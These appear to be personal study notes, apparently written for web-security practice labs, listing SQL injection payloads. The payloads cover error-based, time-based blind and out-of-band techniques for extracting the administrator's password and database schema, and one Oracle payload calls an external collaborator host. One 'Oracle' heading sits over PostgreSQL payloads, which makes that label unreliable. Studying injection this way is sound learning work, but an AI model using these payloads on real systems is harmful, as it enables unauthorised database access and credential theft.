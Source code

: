 ```
'||(SELECT CASE WHEN(SUBSTR((SELECT password FROM users WHERE username='administrator'),1,1)='w') THEN TO_CHAR(1/0) ELSE '' END FROM DUAL)-- #

'||(SELECT CASE WHEN(SUBSTR((SELECT password FROM users WHERE username='administrator'),1,1)='a') THEN TO_CHAR(1/0) ELSE '' END FROM DUAL)-- #
```
8. [[SQLi demos#^47d308|Speed up with intruder]]
# Visible error-based
- PostgreSQL
1. Submit probe payload and identify verbose error message in HTTP response
2. Confirm data retrieval and identify database version
```
'AND CAST((SELECT version()) AS INT)=1--
```
3. Extract first row from `username` column in `users` table
```
'AND CAST((SELECT username FROM users LIMIT 1) AS INT)=1--
```
4. Extract first row from `password` column in `users` table
```
'AND CAST((SELECT password FROM users LIMIT 1) AS INT)=1--
```
# Blind SQLi with time delays
- Oracle
1. Submit conditional payload to trigger time delay
```
'AND 1337=(CASE WHEN (1=1) THEN (SELECT 1337 FROM PG_SLEEP(10)) ELSE 1337 END)-- #
```
- Payloads taken from [Complex Time Based Injections](https://tib3rius.com/sqli.html#time-based-exploitation)
2. Payload to extract table name `1` character at a time from `information_schema.tables`
	- TRUE statements will result in a 9 second time delay
```
'%3b(SELECT CASE WHEN SUBSTRING(table_name,1,1)='u' THEN PG_SLEEP(9) ELSE PG_SLEEP(0) END FROM information_schema.tables LIMIT 1)-- #
```
3. Payload to brute-force table names
```
';SELECT CASE WHEN (table_name='{tableName}') THEN pg_sleep(3) ELSE pg_sleep(0) END FROM information_schema.tables--
```
4. Payload to brute-force column names from `users` table
```
';SELECT CASE WHEN (column_name='{columnName}') THEN pg_sleep(3) ELSE pg_sleep(0) END FROM information_schema.columns WHERE table_name='users'--
```
5. Payload to determine the length of the `administrator`'s password
```
'%3b(SELECT CASE WHEN (username='administrator' and length(password)>1) THEN PG_SLEEP(9) ELSE PG_SLEEP(0) END FROM users)-- #
```
6. Extract the `administrator`'s password `1` character at a time
```
'%3b(SELECT CASE WHEN (username='administrator' and substring(password,1,1)='g') THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END FROM users)-- #
```
# OOB SQLi detection
- Oracle
```
'+UNION+SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//4v0v7dy1xfrgexbyip9ufiwouf06o7cw.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```